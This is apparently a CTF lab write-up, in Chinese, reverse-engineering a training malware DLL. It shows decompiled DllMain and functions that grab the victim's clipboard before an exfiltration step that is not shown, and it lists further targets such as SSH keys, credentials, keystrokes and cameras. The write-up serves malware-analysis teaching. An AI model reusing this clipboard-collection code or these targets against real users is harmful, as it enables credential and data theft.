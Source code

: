 ```yaml
---
title: Simple Reverse - 0x22(2023 Lab - WinMalware - Collect)
tags: [eductf, CTF, Reverse]

---
```


# Simple Reverse - 0x22(2023 Lab - WinMalware - Collect)
## Background
如果想要分析DLL，可以從以下三個地方切入
* _DllMainCRTStartup (DLL 載入和移除時的初始化與收尾)
    * DllMain / DllEntryPoint / CRT_INIT (function signature 相同)
    * 找有三個參數的 function call
    ![](https://hackmd.io/_uploads/Sk0GgCaz6.png)
    範例就大概像這樣，從`_DllMainCRTStartup`底下有`call _CRT_INIT`和`call DllEntryPoint`(`DllMain`在比較下面)
    ![](https://hackmd.io/_uploads/HklyZRTf6.png)
* Exported Functions
* TLS Callback
* [OpenClipboard](https://learn.microsoft.com/zh-tw/windows/win32/api/winuser/nf-winuser-openclipboard)
* [GetClipboardData](https://learn.microsoft.com/zh-tw/windows/win32/api/winuser/nf-winuser-getclipboarddata)
* [globalLock](https://learn.microsoft.com/zh-tw/windows/win32/api/winbase/nf-winbase-globallock)
* [\_itoa](https://learn.microsoft.com/zh-tw/cpp/c-runtime-library/reference/itoa-itow?view=msvc-170)
## Source Code
IDA解析的source code很常會出現明明沒有return value但還是自動建立的狀況，所以適時的刪除return value(Shift+DEL)是對分析比較好的做法
* DllMain
    ```cpp=
    BOOL __stdcall DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
    {
      if ( fdwReason == 1 )
      {
        MessageBoxA(0i64, "Reflective Dll Injection success. Remember to delete the persistence file", "eductf-lab", 0);
        my_main();    // 不重要的東西
        collect_and_exfiltrate();
      }
      return 1;
    }
    ```
* collect_and_exfiltrate
    ```cpp=
    void collect_and_exfiltrate(void)
    {
      PUCHAR pbInput; // [rsp+28h] [rbp-10h] BYREF

      pbInput = 0i64;
      collect_data(&pbInput);
      exfiltrate(pbInput);
    }
    ```
* collect_data
    ```cpp=
    void __fastcall collect_data(char **pbInput)
    {
      char *pbInput_1; // [rsp+28h] [rbp-10h] BYREF

      collect_get_clipboard_data(&pbInput_1);
      *pbInput = pbInput_1;
    }
    ```
* collect_get_clipboard_data
    ```cpp=
    void __fastcall collect_get_clipboard_data(LPVOID *pbInput)
    {
      HANDLE ClipboardData; // rax
      void *v3; // rsi
      int LastError; // eax
      char Buffer[34]; // [rsp+26h] [rbp-22h] BYREF

      if ( OpenClipboard(0i64) )
      {
        ClipboardData = GetClipboardData(1u);
        v3 = ClipboardData;
        if ( ClipboardData )
        {
          *pbInput = GlobalLock(ClipboardData);
          GlobalUnlock(v3);
        }
        else
        {
          LastError = GetLastError();
          _itoa(LastError, Buffer, 10);
        }
      }
      CloseClipboard();
    }
    ```
## Recon
目前要分析的重點著重在DllMain中，所以其他的切入點可以先不管，並且先聚焦在collect data身上。其實作者一開始就有把debug information都放在這邊，所以分析可以更順暢
1. 首先trace一下上面所有的code，會發現其實簡單到根本不用查MSDN也知道在幹嘛，就是把受害主機的剪貼簿打開，並取得這個剪貼簿的開頭指標，再回傳給`pbIntput`
2. 最後再傳給後續的exfiltrate function

:::info
目前的攻擊手法符合Mitre ATT&CK的[T1115](https://attack.mitre.org/techniques/T1115/)，剪貼簿中可能剛好有帳號、密碼、信用卡號之類的
除了剪貼簿，還能收集很多其他東西，像是：
* PDF、DOCX、XLSX、Email、Git source code
* SSH private key、Key logging、OS credential cache
* 麥克風、鏡頭、其他外接裝置
* 任何你想得到的資訊
:::